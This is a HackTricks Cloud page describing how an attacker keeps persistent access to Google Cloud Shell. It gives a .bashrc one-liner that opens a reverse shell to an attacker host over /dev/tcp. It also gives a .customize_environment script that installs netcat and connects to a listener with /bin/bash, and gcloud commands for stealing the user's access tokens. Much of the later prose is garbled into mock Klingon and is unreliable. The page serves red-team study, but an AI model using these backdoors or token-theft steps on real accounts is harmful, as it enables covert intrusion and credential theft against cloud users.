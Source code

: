 # GCP - Cloud Shell Persistence

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* &#x20;github repos.

</details>

## Cloud Shell

For more information check:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) provides you with command-line access to your cloud resources directly from your browser without any associated cost.

You can access Google's Cloud Shell from the **web console** or running **`gcloud cloud-shell ssh`**.

This console has some interesting capabilities for attackers:

1. **Any Google user with access to Google Cloud** has access to a fully authenticated Cloud Shell instance (Service Accounts can, even being Owners of the org).
2. Said instance will **maintain its home directory for at least 120 days** if no activity happens.
3. There is **no capabilities for an organisation to monitor** the activity of that instance.

This basically means that an attacker may put a backdoor in the home directory of the user and as long as the user connects to the GC Shell every 120days at least, the backdoor will survive and the attacker will get a shell every time it's run just by doing:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

**.customize_environment** file vItlhutlh:

```
#!/bin/bash
# Insert your backdoor here
```

This file will be executed every time the user accesses the cloud shell, ensuring persistence as long as the user frequently uses the cloud shell.
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Qapla'! **QaStaHvIS authentication vItlhutlh** qonwI'wI' browser vItlhutlh pop-up authorization window appears. vaj pop-up vItlhutlh vItlhutlh, 'oH vItlhutlh command run vItlhutlh. vaj pop-up vItlhutlh vItlhutlh appears, 'oH vItlhutlh suspicion raise vItlhutlh potentially compromise vItlhutlh persistence method vItlhutlh.
{% endhint %}

This vItlhutlh pop-up 'ej `gcloud projects list` executing cloud shell (as attacker) browsers user session viewed:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

However, user cloudshell actively vItlhutlh, pop-up vItlhutlh vItlhutlh 'ej **gather tokens user**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### QaStaHvIS SSH qonwI'wI'?

QaStaHvIS 3 API callmey lo'laHbe':

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (bIQtIqDaq lo'laHbe' public key)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (bIQtIqDaq lo'laHbe' instance)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (google cloud shell IP jImej)

'ach [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) DaH jImej.

## References

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>qaStaHvIS AWS hacking</strong></a><strong>!</strong></summary>

HackTricks nuqneH tu'lu'be':

* qaStaHvIS **company HackTricks** advertise **want** **or HackTricks PDF** **download** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) **Check**!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) **Get**
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) **Discover**, [**NFTs**](https://opensea.io/collection/the-peass-family) **our collection** exclusive
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) **or the** [**telegram group**](https://t.me/peass) **or** **follow** **us on** **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) **and** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* &#x20;github repos.

</details>
